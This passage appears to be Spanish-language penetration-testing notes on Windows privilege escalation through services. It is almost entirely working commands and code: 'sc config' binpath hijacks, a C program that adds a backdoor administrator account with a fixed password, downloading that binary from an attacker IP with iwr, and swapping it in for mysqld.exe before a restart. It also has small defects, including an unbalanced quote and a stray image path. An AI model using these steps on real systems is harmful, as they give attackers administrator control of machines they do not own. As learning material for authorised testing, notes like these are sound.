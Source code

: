     sc config <user> binpath= "\"C:\PATH\TO\MALICIOUS.exe""

##### podemos también agregar un user al grupo de administrators.
    
     sc config <service> binpath="cmd /c net localgroup administrators <user> /add"

ahora podemos correr el servicio y que nos genere una shell reversa:
    
    net start servicio


Otra opción es crear un ejecutable que reemplace al servicio para que al ser ejecutado nos genere un nuevo admin user:

##### 1) creamos el script en C en nuestra máquina atacante:

#include <stdlib.h>

    int main ()
    {
      int i;
      
      i = system ("net user dave2 password123! /add");
      i = system ("net localgroup administrators dave2 /add");
      
      return 0;
    }


##### 2) lo compilamos

    gcc script.c -o <nombre_del_exe_a_reemplazar>

##### 3) lo pasamos a la máquina victima

    iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe

##### 4) copiamos el original para luego revertir las acciones

    move <path_to_service> <service>
##### 5) copiamos el nuestro exe malicioso en la dirección del original

    move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

#### 6) hacemos un stop del servicio

    net stop mysql

#### 7)Listamos el servicio y si el servicio está en StartMode auto Reiniciamos le sistema

    Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

#### rebot
